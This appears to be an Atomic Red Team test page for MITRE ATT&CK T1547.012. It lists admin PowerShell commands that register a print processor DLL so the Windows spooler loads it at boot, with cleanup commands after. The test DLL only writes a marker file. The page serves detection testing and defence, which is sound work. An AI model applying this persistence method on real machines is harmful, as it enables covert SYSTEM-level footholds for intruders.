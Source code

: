 ```yaml
---
tags: [T1547_012, atomic_test]
filename: "[[T1547.012 - Boot or Logon Autostart Execution- Print Processors]]"
---
```

# T1547.012 - Boot or Logon Autostart Execution: Print Processors

## Atomic Test #1 - Print Processors
Establishes persistence by creating a new print processor registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors.
The new print processor will point to a DLL which will be loaded by the spooler service after a reboot. The DLL will then create the file AtomicTest.txt in C:\Users\Public\ as validation that the test is successful.

Note: The test assumes a x64 Windows operating system.

The payload source code is based on a blog post by stmxcsr: [https://stmxcsr.com/persistence/print-processor.html](https://stmxcsr.com/persistence/print-processor.html)

**Supported Platforms:** Windows


**auto_generated_guid:** f7d38f47-c61b-47cc-a59d-fc0368f47ed0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| restart | set to 1 if you want the computer to reboot as part of the test | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if( $(get-service -Name spooler).StartType -eq "Disabled") {Set-Service -Name "spooler" -StartupType Automatic}
net stop spooler
Copy-Item "$PathToAtomicsFolder\T1547.012\bin\AtomicTest.dll" C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" /v "Driver" /d "AtomicTest.dll" /t REG_SZ /f
net start spooler
if(#{restart}){
  Restart-Computer
}
```

#### Cleanup Commands:
```powershell
net stop spooler
rm -force C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll -ErrorAction SilentlyContinue
rm -force C:\Users\Public\AtomicTest.txt -ErrorAction SilentlyContinue
remove-item "HKLM:\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" -Force -ErrorAction SilentlyContinue
net start spooler
```





<br/>
